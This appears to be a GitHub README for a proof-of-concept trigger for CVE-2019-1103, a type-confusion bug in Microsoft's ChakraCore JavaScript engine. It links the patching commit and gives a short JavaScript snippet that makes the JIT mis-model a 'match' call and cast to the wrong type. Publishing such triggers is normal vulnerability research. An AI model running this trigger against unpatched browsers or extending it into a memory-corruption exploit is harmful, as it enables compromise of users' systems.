 
# CVE-2019-1103-POC

trigger for CVE-2019-1103 <br> 
https://github.com/microsoft/ChakraCore/pull/6196/commits/efab3101028045cbfa0cc21bd852f75bcc037dba<br>
got patched before the zdi looked at it..<br>
the poc show's that this improper modeling,<br>
leads to a bad type cast: (e.g: Type Confusion).<br>


```javascript
function opt() {
  
  let e = "e".match;
  
  function f(a,b,c) {
    
      function inline() {
          return b;
       }
                
       e.call([],b); 
        
       if (c) {
         f(inline);
       } 
        
  }
    
  f([],0,1);
  
}

for (let l = 0; l < 100000; l++){
    opt();
}
```
